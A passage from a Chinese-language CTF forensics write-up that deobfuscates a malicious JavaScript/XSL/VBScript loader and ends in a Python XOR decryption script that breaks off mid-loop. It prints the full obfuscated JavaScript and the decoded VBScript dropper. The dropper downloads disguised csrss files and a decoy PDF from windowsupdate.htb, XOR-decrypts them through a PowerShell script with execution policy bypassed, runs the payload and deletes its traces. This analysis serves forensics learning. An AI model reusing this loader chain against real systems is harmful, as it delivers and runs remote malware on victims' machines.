50%24wxvH','w%60Tyfpmg','VP7%24A%24','2%3E%0D%0A','exl5%0EIrh','4c%0E%26%2','Pmri%24wxv','0%3D%201%2','7D%5F%28m%','%2Fms%3Asc'];_0x1215=function(){return _0x2ca70b;};return _0x1215();}xsl[_0x4ad86c(0x102)](unescape(_0x4ad86c(0x1a1)+_0x4ad86c(0x1c4)+_0x4ad86c(0x286)+_0x4ad86c(0xeb)+_0x4ad86c(0x25f)+_0x4ad86c(0x1d8)+_0x4ad86c(0x13c)+_0x4ad86c(0x1fa)+_0x4ad86c(0x280)+_0x4ad86c(0x2a4)+_0x4ad86c(0x100)+_0x4ad86c(0x241)+_0x4ad86c(0x166)+_0x4ad86c(0x2ad)+_0x4ad86c(0x1be)+_0x4ad86c(0x1cf)+_0x4ad86c(0x299)+_0x4ad86c(0x1b4)+_0x4ad86c(0x2b9)+_0x4ad86c(0x24a)+_0x4ad86c(0x120)+_0x4ad86c(0x10e)+_0x4ad86c(0x23a)+_0x4ad86c(0x1a0)+_0x4ad86c(0xea)+_0x4ad86c(0x120)+_0x4ad86c(0x10e)+_0x4ad86c(0x23b)+_0x4ad86c(0x223)+_0x4ad86c(0xdf)+_0x4ad86c(0xee)+_0x4ad86c(0x1dc)+_0x4ad86c(0x149)+_0x4ad86c(0x2b6)+_0x4ad86c(0x2c4)+_0x4ad86c(0x1a9)+_0x4ad86c(0x21d)+_0x4ad86c(0xca)+_0x4ad86c(0x254)+_0x4ad86c(0x26f)+_0x4ad86c(0x1d6)+_0x4ad86c(0x253)+_0x4ad86c(0x1e7)+_0x4ad86c(0x12c)+_0x4ad86c(0xd4)+_0x4ad86c(0x1f0)+_0x4ad86c(0x287)+_0x4ad86c(0x2c2)+_0x4ad86c(0x1c3)+_0x4ad86c(0x232)+_0x4ad86c(0x103)+_0x4ad86c(0x25b)+_0x4ad86c(0xe3)+_0x4ad86c(0x18d)+_0x4ad86c(0x1ce)+_0x4ad86c(0x170)+_0x4ad86c(0xfb)+_0x4ad86c(0x12f)+_0x4ad86c(0x296)+_0x4ad86c(0x26e)+_0x4ad86c(0x122)+_0x4ad86c(0x11c)+_0x4ad86c(0x2a5)+_0x4ad86c(0x23f)+_0x4ad86c(0x1e0)+_0x4ad86c(0x1e3)+_0x4ad86c(0x1e4)+_0x4ad86c(0x168)+_0x4ad86c(0x211)+_0x4ad86c(0x189)+_0x4ad86c(0x208)+_0x4ad86c(0x1c8)+_0x4ad86c(0x13b)+_0x4ad86c(0x1c5)+_0x4ad86c(0x125)+_0x4ad86c(0x257)+_0x4ad86c(0x1ea)+_0x4ad86c(0x2bb)+_0x4ad86c(0xe7)+_0x4ad86c(0x2a1)+_0x4ad86c(0x156)+_0x4ad86c(0x177)+_0x4ad86c(0x1cd)+_0x4ad86c(0x2ac)+_0x4ad86c(0x151)+_0x4ad86c(0x12e)+_0x4ad86c(0x13d)+_0x4ad86c(0x167)+_0x4ad86c(0x2aa)+_0x4ad86c(0xce)+_0x4ad86c(0x194)+_0x4ad86c(0xda)+_0x4ad86c(0x25a)+_0x4ad86c(0x28a)+_0x4ad86c(0x1fd)+_0x4ad86c(0xc2)+_0x4ad86c(0x250)+_0x4ad86c(0x163)+_0x4ad86c(0x29c)+_0x4ad86c(0xde)+(_0x4ad86c(0x1ae)+_0x4ad86c(0x291)+_0x4ad86c(0x279)+_0x4ad86c(0xc1)+_0x4ad86c(0x26b)+_0x4ad86c(0x270)+_0x4ad86c(0x244)+_0x4ad86c(0x152)+_0x4ad86c(0x206)+_0x4ad86c(0x115)+_0x4ad86c(0x297)+_0x4ad86c(0x1bc)+_0x4ad86c(0xc3)+_0x4ad86c(0x29f)+_0x4ad86c(0x2bb)+_0x4ad86c(0x14c)+_0x4ad86c(0x2b1)+_0x4ad86c(0x229)+_0x4ad86c(0x162)+_0x4ad86c(0x154)+_0x4ad86c(0xd6)+_0x4ad86c(0x213)+_0x4ad86c(0x28a)+_0x4ad86c(0x25d)+_0x4ad86c(0x281)+_0x4ad86c(0x1d3)+_0x4ad86c(0x1bf)+_0x4ad86c(0x13b)+_0x4ad86c(0x2c5)+_0x4ad86c(0x141)+_0x4ad86c(0x278)+_0x4ad86c(0x16d)+_0x4ad86c(0x1e5)+_0x4ad86c(0x26a)+_0x4ad86c(0x293)+_0x4ad86c(0x2a1)+_0x4ad86c(0x215)+_0x4ad86c(0x1df)+_0x4ad86c(0xd7)+_0x4ad86c(0x23c)+_0x4ad86c(0x237)+_0x4ad86c(0xfe)+_0x4ad86c(0x131)+_0x4ad86c(0xff)+_0x4ad86c(0x212)+_0x4ad86c(0x135)+_0x4ad86c(0x2b3)+_0x4ad86c(0x2c3)+_0x4ad86c(0x249)+_0x4ad86c(0x2a5)+_0x4ad86c(0x198)+_0x4ad86c(0x2be)+_0x4ad86c(0x266)+_0x4ad86c(0x221)+_0x4ad86c(0x15b)+_0x4ad86c(0x128)+_0x4ad86c(0x234)+_0x4ad86c(0x1d1)+_0x4ad86c(0x20f)+_0x4ad86c(0x227)+_0x4ad86c(0x15c)+_0x4ad86c(0x190)+_0x4ad86c(0x24e)+_0x4ad86c(0xef)+_0x4ad86c(0x14a)+_0x4ad86c(0xd5)+_0x4ad86c(0xf4)+_0x4ad86c(0x2a7)+_0x4ad86c(0x101)+_0x4ad86c(0x2ba)+_0x4ad86c(0x14d)+_0x4ad86c(0x261)+_0x4ad86c(0x165)+_0x4ad86c(0xcc)+_0x4ad86c(0x258)+_0x4ad86c(0xc5)+_0x4ad86c(0x26d)+_0x4ad86c(0x11e)+_0x4ad86c(0xd0)+_0x4ad86c(0xdc)+_0x4ad86c(0xed)+_0x4ad86c(0xe0)+_0x4ad86c(0x1d4)+_0x4ad86c(0x2b7)+_0x4ad86c(0x20b)+_0x4ad86c(0x1b1)+_0x4ad86c(0x104)+_0x4ad86c(0x185)+_0x4ad86c(0x222)+_0x4ad86c(0x2bd)+_0x4ad86c(0x139)+_0x4ad86c(0x2b2)+_0x4ad86c(0x2bf)+_0x4ad86c(0x1e6)+_0x4ad86c(0x213)+_0x4ad86c(0x289)+_0x4ad86c(0x187)+_0x4ad86c(0x236)+_0x4ad86c(0x112)+_0x4ad86c(0x116))+(_0x4ad86c(0x16e)+_0x4ad86c(0x255)+_0x4ad86c(0x188)+_0x4ad86c(0x176)+_0x4ad86c(0x16e)+_0x4ad86c(0x273)+_0x4ad86c(0x22a)+_0x4ad86c(0x1d5)+_0x4ad86c(0x27d)+_0x4ad86c(0x181)+_0x4ad86c(0x256)+_0x4ad86c(0x1a3)+_0x4ad86c(0x271)+_0x4ad86c(0x199)+_0x4ad86c(0x134)+_0x4ad86c(0xfd)+_0x4ad86c(0x292)+_0x4ad86c(0x133)+_0x4ad86c(0xd9)+_0x4ad86c(0x233)+_0x4ad86c(0x19d)+_0x4ad86c(0x233)+_0x4ad86c(0x272)+_0x4ad86c(0x219)+_0x4ad86c(0x2c6)+_0x4ad86c(0x1a2)+_0x4ad86c(0xf1)+_0x4ad86c(0x22c)+_0x4ad86c(0x2a6)+_0x4ad86c(0x178)+_0x4ad86c(0x1eb)+_0x4ad86c(0x17e)+_0x4ad86c(0x1b3)+_0x4ad86c(0x231)+_0x4ad86c(0x29a)+_0x4ad86c(0x246)+_0x4ad86c(0x200)+_0x4ad86c(0x1f8)+_0x4ad86c(0x2c1)+_0x4ad86c(0x21c)+_0x4ad86c(0x1b8)+_0x4ad86c(0x1fe)+_0x4ad86c(0x12a)+_0x4ad86c(0xe6)+_0x4ad86c(0xc8)+_0x4ad86c(0x2a3)+_0x4ad86c(0x1b9)+_0x4ad86c(0x18f)+_0x4ad86c(0x171)+_0x4ad86c(0x121)+_0x4ad86c(0xc4)+_0x4ad86c(0x147)+_0x4ad86c(0x105)+_0x4ad86c(0x1c0)+_0x4ad86c(0x197)+_0x4ad86c(0xcb)+_0x4ad86c(0x1bd)+_0x4ad86c(0x157)+_0x4ad86c(0x1eb)+_0x4ad86c(0x17e)+_0x4ad86c(0x173)+_0x4ad86c(0x21e)+_0x4ad86c(0x1ef)+_0x4ad86c(0x16a)+_0x4ad86c(0x24f)+_0x4ad86c(0x111)+_0x4ad86c(0x19c)+_0x4ad86c(0x205)+_0x4ad86c(0x1d9)+_0x4ad86c(0xf2)+_0x4ad86c(0x161)+_0x4ad86c(0xe1)+_0x4ad86c(0x119)+_0x4ad86c(0x215)+_0x4ad86c(0x1b6)+_0x4ad86c(0x1f4)+_0x4ad86c(0xf2)+_0x4ad86c(0x161)+_0x4ad86c(0x2b0)+_0x4ad86c(0x240)+_0x4ad86c(0x2b4)+_0x4ad86c(0x224)+_0x4ad86c(0x28b)+_0x4ad86c(0x27e)+_0x4ad86c(0x1a5)+_0x4ad86c(0x224)+_0x4ad86c(0xc9)+_0x4ad86c(0x203)+_0x4ad86c(0xf2)+_0x4ad86c(0x161)+_0x4ad86c(0xe1)+_0x4ad86c(0x176)+_0x4ad86c(0xd3)+_0x4ad86c(0x191)+_0x4ad86c(0x2af)+_0x4ad86c(0x17d)+_0x4ad86c(0x27c)+_0x4ad86c(0x118)+_0x4ad86c(0x192)+_0x4ad86c(0xe4))+(_0x4ad86c(0x263)+_0x4ad86c(0x119)+_0x4ad86c(0x202)+_0x4ad86c(0x17c)+_0x4ad86c(0x1fb)+_0x4ad86c(0x21b)+_0x4ad86c(0x260)+_0x4ad86c(0x17c)+_0x4ad86c(0x1fb)+_0x4ad86c(0x24d)+_0x4ad86c(0x16a)+_0x4ad86c(0x24f)+_0x4ad86c(0x284)+_0x4ad86c(0x10a)+_0x4ad86c(0x2ae)+_0x4ad86c(0x27a)+_0x4ad86c(0x27e)+_0x4ad86c(0x109)+_0x4ad86c(0x18f)+_0x4ad86c(0x1ee)+_0x4ad86c(0x22f)+_0x4ad86c(0x1b0)+_0x4ad86c(0x17f)+_0x4ad86c(0x23d)+_0x4ad86c(0x28f)+_0x4ad86c(0x27b)+_0x4ad86c(0x269)+_0x4ad86c(0x275)+_0x4ad86c(0x106)+_0x4ad86c(0x110)+_0x4ad86c(0xe8)+_0x4ad86c(0xc7)+_0x4ad86c(0x1cc)+_0x4ad86c(0x10b)+_0x4ad86c(0x19e)+_0x4ad86c(0x19a)+_0x4ad86c(0x1a8)+_0x4ad86c(0x298)+_0x4ad86c(0x11f)+_0x4ad86c(0x127)+_0x4ad86c(0x1c7)+_0x4ad86c(0x15d)+_0x4ad86c(0x1aa)+_0x4ad86c(0x2b8)+_0x4ad86c(0x1c1)+_0x4ad86c(0x160)+_0x4ad86c(0xf9)+_0x4ad86c(0x13f)+_0x4ad86c(0x11b)+_0x4ad86c(0x137)+_0x4ad86c(0x142)+_0x4ad86c(0x1c6)+_0x4ad86c(0x14f)+_0x4ad86c(0x143)+_0x4ad86c(0x268)+_0x4ad86c(0xe2)+_0x4ad86c(0x1ab)+_0x4ad86c(0x19f)+_0x4ad86c(0xf3)+_0x4ad86c(0x2a8)+_0x4ad86c(0x264)+_0x4ad86c(0x25e)+_0x4ad86c(0x113)+_0x4ad86c(0x130)+_0x4ad86c(0x294)+_0x4ad86c(0x27f)+_0x4ad86c(0x1dd)+_0x4ad86c(0x1e6)+_0x4ad86c(0x108)+_0x4ad86c(0x189)+_0x4ad86c(0x136)+_0x4ad86c(0x196)+_0x4ad86c(0x1e8)+_0x4ad86c(0xec)+_0x4ad86c(0x1de)+_0x4ad86c(0x129)+_0x4ad86c(0x195)+_0x4ad86c(0x2c0)+_0x4ad86c(0x11f)+_0x4ad86c(0x14b)+_0x4ad86c(0x242)+_0x4ad86c(0x1f6)+_0x4ad86c(0x1ac)+_0x4ad86c(0x10f)+_0x4ad86c(0x285)+_0x4ad86c(0x1e1)+_0x4ad86c(0x24c)+_0x4ad86c(0x21a)+_0x4ad86c(0xf6)+_0x4ad86c(0xfc)+_0x4ad86c(0xd2)+_0x4ad86c(0x265)+_0x4ad86c(0x114)+_0x4ad86c(0x229)+_0x4ad86c(0x1bb)+_0x4ad86c(0x155)+_0x4ad86c(0x29b)+_0x4ad86c(0xe6)+_0x4ad86c(0x148)+_0x4ad86c(0x1ff))+(_0x4ad86c(0x210)+_0x4ad86c(0x179)+_0x4ad86c(0x1c2)+_0x4ad86c(0x1f2)+_0x4ad86c(0x28e)+_0x4ad86c(0x169)+_0x4ad86c(0x276)+_0x4ad86c(0x153)+_0x4ad86c(0x217)+_0x4ad86c(0x282)+_0x4ad86c(0x13b)+_0x4ad86c(0x14e)+_0x4ad86c(0x1a6)+_0x4ad86c(0x218)+_0x4ad86c(0x1fc)+_0x4ad86c(0x288)+_0x4ad86c(0x186)+_0x4ad86c(0x10d)+_0x4ad86c(0x248)+_0x4ad86c(0x242)+_0x4ad86c(0x10c)+_0x4ad86c(0x16f)+_0x4ad86c(0x2bd)+_0x4ad86c(0x176)+_0x4ad86c(0x1f9)+_0x4ad86c(0x23e)+_0x4ad86c(0xc6)+_0x4ad86c(0x230)+_0x4ad86c(0x1e9)+_0x4ad86c(0x1af)+_0x4ad86c(0x1e2)+_0x4ad86c(0x226)+_0x4ad86c(0xe9)+_0x4ad86c(0x259)+_0x4ad86c(0x201)+_0x4ad86c(0xcf)+_0x4ad86c(0x123)+_0x4ad86c(0x20a)+_0x4ad86c(0x251)+_0x4ad86c(0x144)+_0x4ad86c(0x220)+_0x4ad86c(0x193)+_0x4ad86c(0x10d)+_0x4ad86c(0x15a)+_0x4ad86c(0x25c)+_0x4ad86c(0x13e)+_0x4ad86c(0x1e1)+_0x4ad86c(0x177)+_0x4ad86c(0x1cd)+_0x4ad86c(0x20d)+_0x4ad86c(0x277)+_0x4ad86c(0x1e1)+_0x4ad86c(0xf5)+_0x4ad86c(0x252)+_0x4ad86c(0x1b7)+_0x4ad86c(0x22d)+_0x4ad86c(0x216)+_0x4ad86c(0x274)+_0x4ad86c(0x278)+_0x4ad86c(0x16d)+_0x4ad86c(0x28c)+_0x4ad86c(0x2a2)+_0x4ad86c(0x174)+_0x4ad86c(0x107)+_0x4ad86c(0x20c)+_0x4ad86c(0xdd)+_0x4ad86c(0xcd)+_0x4ad86c(0x228)+_0x4ad86c(0x18b)+_0x4ad86c(0x2a9)+_0x4ad86c(0x212)+_0x4ad86c(0x135)+_0x4ad86c(0x2b3)+_0x4ad86c(0x146)+_0x4ad86c(0x1ed)+_0x4ad86c(0x1d2)+_0x4ad86c(0x12b)+_0x4ad86c(0x1db)+_0x4ad86c(0x1f7)+_0x4ad86c(0x124)+_0x4ad86c(0x238)+_0x4ad86c(0xdb)+_0x4ad86c(0x28d)+_0x4ad86c(0x145)+_0x4ad86c(0x150)+_0x4ad86c(0x18e)+_0x4ad86c(0x16c)+_0x4ad86c(0x2ab)+_0x4ad86c(0x12d)+_0x4ad86c(0x24b)+_0x4ad86c(0x2ab)+_0x4ad86c(0x16b)+_0x4ad86c(0x1d1)+_0x4ad86c(0x117)+_0x4ad86c(0x126)+_0x4ad86c(0x2a0)+_0x4ad86c(0x176)+_0x4ad86c(0x267)+_0x4ad86c(0x22b)+_0x4ad86c(0x159))+(_0x4ad86c(0x19b)+_0x4ad86c(0x292)+_0x4ad86c(0x1b2)+_0x4ad86c(0x175)+_0x4ad86c(0x11f)+_0x4ad86c(0x207)+_0x4ad86c(0x1f5)+_0x4ad86c(0x17a)+_0x4ad86c(0x1f3)+_0x4ad86c(0x10d)+_0x4ad86c(0x11f)+_0x4ad86c(0x22e)+_0x4ad86c(0x247)+_0x4ad86c(0x2bd)+_0x4ad86c(0x176)+_0x4ad86c(0x1b5)+_0x4ad86c(0x2bc)+_0x4ad86c(0x138)+_0x4ad86c(0x292)+_0x4ad86c(0x172)+_0x4ad86c(0x132)+_0x4ad86c(0x214)+_0x4ad86c(0x1da)+_0x4ad86c(0x283)+_0x4ad86c(0x180)+_0x4ad86c(0x2bd)+_0x4ad86c(0x176)+_0x4ad86c(0x1b5)+_0x4ad86c(0x239)+_0x4ad86c(0xfa)+_0x4ad86c(0x1a4)+_0x4ad86c(0x10d)+_0x4ad86c(0x11f)+_0x4ad86c(0x22e)+_0x4ad86c(0x11d)+_0x4ad86c(0x292)+_0x4ad86c(0xd1)+_0x4ad86c(0x17b)+_0x4ad86c(0x225)+_0x4ad86c(0x1c9)+_0x4ad86c(0x209)+_0x4ad86c(0x15f)+_0x4ad86c(0x1d7)+_0x4ad86c(0x1cb)+_0x4ad86c(0x26c)+_0x4ad86c(0x11a)+_0x4ad86c(0x183)+_0x4ad86c(0x245)+_0x4ad86c(0x15e)+_0x4ad86c(0xc0)+_0x4ad86c(0x184)+_0x4ad86c(0x1ca)+_0x4ad86c(0x10e)+_0x4ad86c(0x29e)+_0x4ad86c(0x1a9)+_0x4ad86c(0x21d)+_0x4ad86c(0xe5)+_0x4ad86c(0x235)+_0x4ad86c(0x1d0)+_0x4ad86c(0x158)+'3E'))),XML[_0x4ad86c(0x204)+_0x4ad86c(0x29d)](xsl);

```

明显是混淆过的，网上找个[在线解js混淆](https://www.dejs.vip/encry_decry/obfuscator.html)



将其中的引号部分url解码得到

```
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>

```

CDATA中的代码逻辑就是将每个字符转ascii之后，将值减5加1再转chr，搓个脚本

```
encoded_string = "Stx....."

decoded_string = ""
for i in range(1, len(encoded_string) + 1):
    char = encoded_string[i - 1]
    ascii_value = ord(char) - 5 + 1
    decoded_string += chr(ascii_value)

print(decoded_string)

```

得到vbs文件

```
Option Explicit
Dim objShell, objFSO, objHTTP
Dim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
Dim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

If Not objFSO.FileExists(strDownloadPath1) Then
    DownloadFile strURL1, strDownloadPath1
End If
If Not objFSO.FileExists(strDownloadPath2) Then
    DownloadFile strURL2, strDownloadPath2
End If
If Not objFSO.FileExists(strDownloadPath3) Then
    DownloadFile strURL3, strDownloadPath3
End If
If Not objFSO.FileExists(strShowfilePath) Then
    DownloadFile strShowfileURL, strShowfilePath
End If

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)

    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next

objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"

Sub DownloadFile(url, path)
    Dim objStream
    Set objStream = CreateObject("ADODB.Stream")
    objHTTP.Open "GET", url, False
    objHTTP.Send
    If objHTTP.Status = 200 Then
        objStream.Open
        objStream.Type = 1
        objStream.Write objHTTP.ResponseBody
        objStream.SaveToFile path, 2
        objStream.Close
    End If
    Set objStream = Nothing
End Sub
```

源码看到下载了多个文件，分别是`wanted.pdf`、`csrss.exe`、`csrss.dll`、`csrss.exe.config`，在靶机将这四个文件下载下来，发现都是乱码

继续分析代码逻辑，是将`csrss.dll`内容作为密钥，然后将其与其他三个文件做异或，可以丢给gpt写脚本，也可以用厨子梭

```
import os

def decrypt_file(file_path, key_path):
    """Decrypt a file using XOR with a key file."""
    try:
        # Read the key file
        with open(key_path, 'rb') as key_file:
            key = key_file.read()

        # Read the encrypted file
        with open(file_path, 'rb') as encrypted_file:
            encrypted_data = encrypted_file.read()

        # Decrypt the data
        key_length = len(key)
        decrypted_data = bytearray(
            encrypted_data[i] ^ key[i % key_length] for i in range(len(encrypted_data))
        )

        # Write the decrypted data back to the file
        with open(file_path, 'wb') as decrypted_file:
            decrypted_file.write(decrypted_data)

        print(f"Decryption successful: {file_path}")

    except Exception as e:
        print(f"Error decrypting {file_path}: {e}")

if __name__ == "__main__":
    # Define file paths
    key_file_path = "csrss.dll"  # Replace with the correct key file path
    files_to_decrypt = [
        "csrss.exe",
        "csrss.exe.config",
        "wanted.pdf"
    ]

    # Decrypt each file
    for file_path in files_to_decrypt:
